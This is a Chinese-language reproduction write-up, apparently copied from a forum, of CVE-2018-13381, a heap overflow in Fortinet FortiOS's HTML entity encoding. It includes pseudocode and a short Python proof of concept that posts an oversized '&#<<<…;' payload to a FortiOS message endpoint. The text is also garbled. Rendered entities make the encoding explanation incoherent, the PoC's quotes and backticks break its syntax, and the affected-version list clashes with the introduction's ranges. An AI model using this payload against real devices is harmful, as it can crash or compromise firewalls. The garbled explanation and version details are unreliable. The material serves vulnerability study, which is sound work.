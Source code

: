 # （CVE-2018-13381）Fortinet FortiOS 缓冲区错误漏洞

> 原文：[https://www.zhihuifly.com/t/topic/2947](https://www.zhihuifly.com/t/topic/2947)

# （CVE-2018-13381）Fortinet FortiOS 缓冲区错误漏洞

## 一、漏洞简介

Fortinet FortiOS是美国飞塔（Fortinet）公司的一套专用于FortiGate网络安全平台上的安全操作系统。该系统为用户提供防火墙、防病毒、IPSec/SSLVPN、Web内容过滤和反垃圾邮件等多种安全功能。 Fortinet FortiOS 6.0.0版本至6.0.4版本、5.6.0版本至5.6.7版本和5.4及之前版本中存在缓冲区错误漏洞。该漏洞源于网络系统或产品在内存上执行操作时，未正确验证数据边界，导致向关联的其他内存位置上执行了错误的读写操作。攻击者可利用该漏洞导致缓冲区溢出或堆溢出等。

## 二、漏洞影响

Fortinet Fortios 6.0.5 Fortinet Fortios 5.6.8

## 三、复现过程

在编码HTML实体代码时，有两个阶段。服务器首先计算编码字符串所需的缓冲区长度，然后将其编码到缓冲区。在计算阶段，例如，`<`字符编码为 `<`，占用5个字节。如果遇到任何以`&#`开头的字符，例如`<`，服务器会认为这个token已经被编码了，并直接计算其长度。像这样：

```
c = token[idx];
if (c == '(' || c == ')' || c == '#' || c == '<' || c == '>')
    cnt += 5;
else if(c == '&' && html[idx+1] == '#')
    cnt += len(strchr(html[idx], ';')-idx); 
```

然而，长度计算和编码过程之间将存在不一致，编码部分无法处理这种情况。

```
switch (c)
{
    case '<':
        memcpy(buf[counter], "&#60;", 5);
        counter += 4;
        break;
    case '>':
    // ...
    default:
        buf[counter] = c;
        break;
    counter++;
} 
```

如果我们输入恶意字符串如`&#<<<;`，`<`仍将编码成`<`，所以编码结果应该是`&#<<<;`！这比预期的6个字节长得多，从而导致堆溢出。
PoC：

```
import requests `data = {

‘title’: ‘x’,

‘msg’: ‘&#’ + ‘<’*(0x20000) + ‘;<’,

}

r = requests.post(‘[https://www.0-sec.org:4433/message](https://www.0-sec.org:4433/message)’, data=data)` 
```